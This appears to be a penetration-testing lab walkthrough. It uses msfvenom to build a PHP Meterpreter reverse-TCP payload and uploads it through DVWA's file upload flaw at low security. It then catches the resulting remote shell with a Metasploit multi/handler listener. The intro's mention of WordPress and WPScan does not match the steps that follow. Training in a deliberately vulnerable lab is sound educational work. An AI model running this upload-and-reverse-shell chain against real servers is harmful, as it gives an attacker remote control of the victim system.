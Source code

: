 - The Metasploit Framework is a penetration testing toolkit, exploit development platform, and research tool that includes hundreds of working remote exploits for a variety of platforms. It helps pen testers to verify vulnerabilities and manage security assessments.

- In this task, we will perform multiple attacks on a vulnerable PHP website (WordPress) in an attempt to gain sensitive information such as usernames and passwords. You will also learn how to use the WPScan tool to enumerate usernames on a WordPress website, and how to crack passwords by performing a dictionary attack using an msf auxiliary module.


#### Security level - low
- Open Terminal
	> sudo su
	> cd
	> msfvenom -p php/meterpreter/reverse_tcp LHOST= #hostip LPORT=4444 -f raw
	
- The raw payload is generated in the terminal window. Select the payload, right-click on it, and click **Copy** from the context menu to copy the payload.
- Now, in the terminal window, type **cd /home/attacker/Desktop/** and press **Enter** to navigate to the **Desktop**.
- Type **pluma upload.php** and press **Enter** to launch the **Pluma** text editor and paste the payload and save the file.
- Click the **Firefox** icon from the top section of **Desktop**, type **http://10.10.10.16:8080/dvwa/login.php**. Into the address bar and press **Enter**.
- The **DVWA** login page appears; enter the **Username** and **Password** as **admin** and **password**. Click the **Login** button.
- The **Welcome to Damn Vulnerable Web Application!** Page appears. Click **DVWA Security** in the left pane to view the DVWA security level.
- Change the security level from impossible to low by selecting **Low** from the drop-down list and clicking the **Submit** button.
- Click the **File Upload** option from the left pane.
- The **Vulnerability: File Upload** page appears; click the **Browse…** button to upload a file.
- When the **File Upload** window appears, navigate to the **Desktop** location, select the payload file **upload.php**, and click **Open**.
- Observe that the selected file (**upload.php**) appears to the right of **Browse…** button.
- Now, click the **Upload** button to upload the file to the database.
- You will see a message saying that the file has been uploaded successfully, with the location of the file. Note the location of the file and minimize the browser window.
- Open Terminal
	> sudo su
	> cd
	> msfconsole 
	> use exploit/multi/handler (to set up listener)
	> set payload php/meterpreter/reverse_tcp
	> set LHOST #hostip 
	> set LPORT 4444
	> run (to start the listener)
	
- Switch back to the **Mozilla Firefox** window where the **DVWA** website is open. Open a new tab, type **http://10.10.10.16:8080/dvwa/hackable/uploads/upload.php** in the address bar, and press **Enter** to execute the uploaded payload.
- Switch back to the **Terminal** window and observe that a **Meterpreter session** has successfully been established with the victim system.
- In the meterpreter command line, type **sysinfo** and press **Enter** to view the system details of the victim machine.
